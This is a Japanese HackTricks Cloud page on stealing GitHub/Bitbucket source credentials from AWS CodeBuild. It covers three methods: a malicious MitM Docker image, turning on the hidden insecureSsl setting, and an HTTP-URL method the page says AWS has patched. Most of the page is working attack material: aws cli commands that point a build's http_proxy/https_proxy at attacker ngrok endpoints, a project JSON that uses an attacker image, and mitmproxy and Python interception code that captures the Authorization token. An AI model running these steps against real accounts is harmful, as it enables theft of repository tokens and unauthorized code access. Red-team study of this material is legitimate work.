 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩する可能性のあるソース認証情報が設定されているか確認してください：
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildを使ってプロジェクトのビルドを実行するために**特定のdockerイメージ**を使用させることで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成**するか、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL CERTを信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロード**
* リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* **`http_proxy`を設定しないでください**メタデータエンドポイントへのリクエストを傍受しないようにします。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
* Dockerイメージがビルドされたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定**
* **新しいCodebuildプロジェクトを作成**するか、既存のものの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性があると報告されています。
{% endhint %}

4. **ビルドを実行し、認証情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** プロジェクトには、ウェブ上では隠されている **`insecureSsl`** という設定があり、APIからのみ変更できます。\
これを有効にすると、Codebuildはプラットフォームが提供する証明書を **確認せずに** リポジトリに接続できるようになります。

* まず、次のようなもので現在の設定を列挙する必要があります:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* その後、収集した情報を使用してプロジェクト設定の **`insecureSsl`** を **`True`** に更新できます。以下は私がプロジェクトを更新した例で、最後に **`insecureSsl=True`** があることに注意してください（これは収集した設定から変更する必要がある唯一の項目です）。
* さらに、env 変数 **http\_proxy** と **https\_proxy** も追加し、tcp ngrok を指すようにします：

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）で指摘されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（おそらく金曜日）。したがって、攻撃者はもはやこれを悪用できません :)**
{% endhint %}

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができます**。または、OAuth経由で権限が設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークン**を漏洩させることができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 次に、GitHubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：`http://github.com/carlospolop-forks/TestActions`
* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）によって指示されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
今、攻撃者は自分のマシンからトークンを使用し、それが持つすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できます。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
